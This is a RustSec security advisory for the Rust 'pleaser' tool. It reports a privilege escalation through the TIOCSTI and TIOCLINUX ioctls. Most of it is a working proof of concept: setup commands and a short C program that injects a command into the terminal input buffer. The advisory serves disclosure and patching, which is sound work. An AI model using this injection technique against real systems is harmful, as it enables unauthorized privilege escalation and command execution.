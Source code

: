```toml
[advisory]
id = "RUSTSEC-2023-0066"
package = "pleaser"
date = "2023-04-29"
url = "https://gitlab.com/edneville/please/-/issues/13"
categories = ["privilege-escalation"]
keywords = []
cvss = "CVSS:3.1/AV:L/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N"

[versions]
patched = []

[affected]
```

# Vulnerable to privilege escalation using ioctls TIOCSTI and TIOCLINUX

please is vulnerable to privilege escalation using ioctls TIOCSTI
and TIOCLINUX on systems where they are not disabled.

Here is how to see it in action:

```
$ cd "$(mktemp -d)"
$ git clone --depth 1 https://gitlab.com/edneville/please.git
$ cd please/
$ git rev-parse HEAD  # f3598f8fae5455a8ecf22afca19eaba7be5053c9
$ cargo test && cargo build --release
$ echo "[${USER}_as_nobody]"$'\nname='"${USER}"$'\ntarget=nobody\nrule=.*\nrequire_pass=false' | sudo tee /etc/please.ini
$ sudo chown root:root ./target/release/please
$ sudo chmod u+s ./target/release/please
$ cat <<TIOCSTI_C_EOF | tee TIOCSTI.c
#include <sys/ioctl.h>

int main(void) {
  const char *text = "id\n";
  while (*text)
    ioctl(0, TIOCSTI, text++);
  return 0;
}
TIOCSTI_C_EOF
$ gcc -std=c99 -Wall -Wextra -pedantic -o /tmp/TIOCSTI TIOCSTI.c
$ ./target/release/please -u nobody /tmp/TIOCSTI  # runs id(1) as ${USER} rather than nobody
```

Please note that:

This affects both the case where root wants to drop privileges as well when non-root wants to gain other privileges.
